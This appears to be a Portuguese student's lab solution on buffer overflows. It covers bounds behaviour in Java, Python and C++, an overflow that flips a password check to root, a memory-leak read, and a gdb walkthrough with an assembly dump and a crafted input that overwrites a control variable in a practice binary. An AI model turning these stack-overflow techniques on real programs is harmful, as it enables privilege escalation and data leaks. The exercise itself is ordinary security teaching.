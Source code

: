 # Aula 11 - Resolução

## Pergunta P1.1

O mesmo programa escrito em várias linguagens, neste caso Java, Python e C++, comporta-se de maneira diferente. Isto é, em todas as implementações do programa, primeiro todos alocam um pedaço de memória estática, com capacidade para armazenar 10 inteiros. De seguida, é solicitado ao utilizador que está a executar o programa, para indicar quantos números inteiros deseja armazenar. Posto isto, o utilizador pode inserir os elementos que pretende guardar, de acordo com o número máximo anteriormente referido.

Contudo, uma vez que o espaço alocado é estático, se o número de elementos que o utilizador desejar armazenar for superior ao número de elementos suportados, isto irá provocar um comportamento anormal de execução do programa, cujo tratamento depende da linguagem em que é implementado.

No caso da implementação em C++, executar o programa para armazenar um número de elementos superior ao que é suportado irá resultar *stack smashing*. Já no programa em Java, a execução deste será interrompida pelo lançamento de uma exceção: *Exception in thread "main" java.lang.ArrayIndexOutOfBoundsException: 10 at LOverflow2.main(LOverflow2.java:18)*. Finalmente, tal como na solução em java, a solução em Python também termina com uma exceção, mais concretamente: *IndexError: list assignment index out of range*.

 
## Pergunta P1.2

O programa *LOverflow3* implementado nas várias linguagens, permite ao utilizador especificar um número de elementos que pretende armazenar. De seguida, são armazenados por ordem decrescente os elementos com início no número especificado pelo utilizador. Posto isto, este pode especificar o elemento ao qual pretende aceder. Contudo, uma vez que não existe controlo sobre o número máximo de elementos que podem ser armazenados, e o espaço de memória é alocado estaticamente, o utilizador pode dispoletar um comportamento anormal da aplicação, indicando um número de elementos que pretende armazenar superior ao que é suportado e previamente alocado, neste caso de 10.

Porém, a forma como este problema é tratado depende da linguagem em que o programa foi implementado. No caso do Java e do Python, é lançada uma exceção, que não permite aceder a posições de memória que não foram alocadas pelo progama. Já no programa em C++, ao introduzir um número máximo de elementos superior ao que é suportado irá deixar o programa a executar indefinidamente, possivelmente pelo valor da variável que é avaliada na condição de verificação do ciclo ser modificado, devido ao acesso a um espaço de endereçamento, que não deve ser usado para armazenar os valores da aplicação.

Para além disto, existe também outro controlo que deve existir para garantir um bom funcionamento da aplicação, que consiste no acesso a uma posição do vetor de elementos armazenados superior aquela que foi introduzida pelo utilizador, neste caso menor do que 10. Isto é, se um utiizador disser que pretende armazenar 2 valores e depois tentar aceder ao que está na posição 3, o resultado poderá variar de acordo com a linguagem em que foi implementada. No caso do C++, uma vez que este vetor não é inicializado, será devolvido o valor que estiver armazenado nesta posição de memória, seja ele qual for, produzindo um comportamento imprevisível. Contudo, uma vez que o Java e o Python inicializam estes vetores, no caso do Java será retornado o valor 0 e no caso do Python *None*.

## Pergunta P1.3

A vulnerabilidade de *Buffer Overflow* presente nestas aplicações é conhecida como *Stack-based buffer overflow*. Esta acontece porque, quando um *array* é declaro em C, o espaço para ele é reservado e o *array* é manipulado através do seu apontador, para o primeiro byte. Contudo, a função `gets` não é segura porque não verifica se os limites do *array* são ultrapassados. Por isso, quando o compilador gera código máquina, para ser executado, o código gerado permite que o programa copie informação, para além dos limites do *array*, alterando o conteúdo das posições de memória adjacentes a este.

Posto isto, para o caso do programa *RootExplooit*, poderá ser usada uma string com mais de 4 caracteres, que corresponde ao espaço reservado para a password introduzida, de modo alterar a informação nas posições de memória adjacentes. Neste caso, alterando o valor da variável `pass` e obter as permissões de root/admin.

Para o caso da aplicação *0-simple*, já será necessário que a string introduzida possua um número máximo de caracteres superior a 64. Desta forma, é possível alterar o valor da variável `control` e consequentemente obter a mensagem "YOU WIN!!!".

## Pergunta P1.4

Após testar e executar o programa `ReadOverflow.c`, podemos concluir que, facilmente, se extrai conhecimento remanescente da memória, executando este programa de forma a que o mesmo seja quebrado. Um exemplo disto é indicar ao programa que pretendemos escrever 20 caratéres, mas quando escrevermos a frase, escrevemos uma que tenha apenas 9 caratéres, por exemplo. O programa ao percorrer o ciclo sem validar se o tamanho da frase é, de facto, igual ao tamanho inicialmente indicado, para além de imprimir os caratéres inseridos, também vai imprimir os restantes que faltam até atingir o número indicado, de posições sucessivas da memória, que ficaram como dados remanescentes.

## Pergunta P1.5

Uma vez que a utilização da função `strcpy` não verifica os limites do argumento que serão copiados para o *buffer*, é possível explorar esta vulnerabilida com um **buffer overflow**, alterando o valor de endereços de memória adjacentes a ele.

De seguida encontra-se o *dump* obtida da função `main`.

```
Dump of assembler code for function main:
   0x0000000000400608 <+0>:     push   %rbp
   0x0000000000400609 <+1>:     mov    %rsp,%rbp
   0x000000000040060c <+4>:     sub    $0x60,%rsp
   0x0000000000400610 <+8>:     mov    %edi,-0x54(%rbp)
   0x0000000000400613 <+11>:    mov    %rsi,-0x60(%rbp)
   0x0000000000400617 <+15>:    cmpl   $0x1,-0x54(%rbp)
   0x000000000040061b <+19>:    jne    0x400631 <main+41>
   0x000000000040061d <+21>:    mov    $0x400780,%esi
   0x0000000000400622 <+26>:    mov    $0x1,%edi
   0x0000000000400627 <+31>:    mov    $0x0,%eax
   0x000000000040062c <+36>:    callq  0x400490 <errx@plt>
   0x0000000000400631 <+41>:    mov    $0x4007a0,%edi
   0x0000000000400636 <+46>:    callq  0x400460 <puts@plt>
   0x000000000040063b <+51>:    movl   $0x0,-0x4(%rbp)
   0x0000000000400642 <+58>:    mov    -0x60(%rbp),%rax
   0x0000000000400646 <+62>:    add    $0x8,%rax
   0x000000000040064a <+66>:    mov    (%rax),%rdx
   0x000000000040064d <+69>:    lea    -0x50(%rbp),%rax
   0x0000000000400651 <+73>:    mov    %rdx,%rsi
   0x0000000000400654 <+76>:    mov    %rax,%rdi
   0x0000000000400657 <+79>:    callq  0x400480 <strcpy@plt>
   0x000000000040065c <+84>:    cmpl   $0x61626364,-0x4(%rbp)
   0x0000000000400663 <+91>:    jne    0x400671 <main+105>
   0x0000000000400665 <+93>:    mov    $0x4007f0,%edi
   0x000000000040066a <+98>:    callq  0x400460 <puts@plt>
   0x000000000040066f <+103>:   jmp    0x400685 <main+125>
   0x0000000000400671 <+105>:   mov    -0x4(%rbp),%eax
   0x0000000000400674 <+108>:   mov    %eax,%esi
   0x0000000000400676 <+110>:   mov    $0x400840,%edi
   0x000000000040067b <+115>:   mov    $0x0,%eax
   0x0000000000400680 <+120>:   callq  0x400450 <printf@plt>
   0x0000000000400685 <+125>:   leaveq 
   0x0000000000400686 <+126>:   retq   
End of assembler dump.
```

Desta forma é possível identificar em que endereços são guardadas as variáveis locais, incluindo a variável `control`, que pretendemos alterar, e a variável `buffer`, que tentaremos explorar. Agora, serão apresentados os passos utilizados, para conseguir vizualizar a organização e conteúdo das variáveis em memória.

```
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/32wx $rbp-0x64
>end
(gdb) b 23
Breakpoint 1 at 0x11e0: file 1-match.c, line 23.
(gdb) r AAAAAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEE
Starting program: /home/a77070/test/1-match AAAAAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEE
You win this game if you can change variable control to the value 0x61626364'
0x7fffffffdf4c: 0x00000000      0xffffe098      0x00007fff      0x004006a0
0x7fffffffdf5c: 0x00000002      0x41414141      0x41414141      0x41414141
0x7fffffffdf6c: 0x42424242      0x42424242      0x42424242      0x42424242
0x7fffffffdf7c: 0x43434343      0x43434343      0x43434343      0x43434343
0x7fffffffdf8c: 0x44444444      0x44444444      0x44444444      0x44444444
0x7fffffffdf9c: 0x45454545      0x61626364      0x00007f00      0x00000000
0x7fffffffdfac: 0x00000000      0x00000000      0x00000000      0x08a1ecdd
0x7fffffffdfbc: 0x00000039      0x00000000      0x00000000      0xffffe098

```
A string usada como input foi escolhida de modo a facilitar a visuzalição da variável `buffer` em memória. É também possível verificar que a variável `control` encontra-se armazenada 4 bytes a seguir à variável `buffer`. Por isso, através do seguinte input, é possível alterar o valor desta variável para o valor exato que é pretendido, tendo em conta que a arquitetura do sistema é *little-endian*.

```
(gdb) r AAAAAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEdcba
Starting program: /home/a77070/test/1-match AAAAAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEdcba
You win this game if you can change variable control to the value 0x61626364'
Congratulations, you win!!! You correctly got the variable to the right value
0x7fffffffdf3c: 0x00000000      0xffffe088      0x00007fff      0x004006a0
0x7fffffffdf4c: 0x00000002      0x41414141      0x41414141      0x41414141
0x7fffffffdf5c: 0x42424242      0x42424242      0x42424242      0x42424242
0x7fffffffdf6c: 0x43434343      0x43434343      0x43434343      0x43434343
0x7fffffffdf7c: 0x44444444      0x44444444      0x44444444      0x44444444
0x7fffffffdf8c: 0x45454545      0x45454545      0x45454545      0x45454545
0x7fffffffdf9c: 0x61626364      0x00000000      0x00000000      0x08a1ecdd
0x7fffffffdfac: 0x00000039      0x00000000      0x00000000      0xffffe088
```

## Pergunta P2.1



## Pergunta P2.2

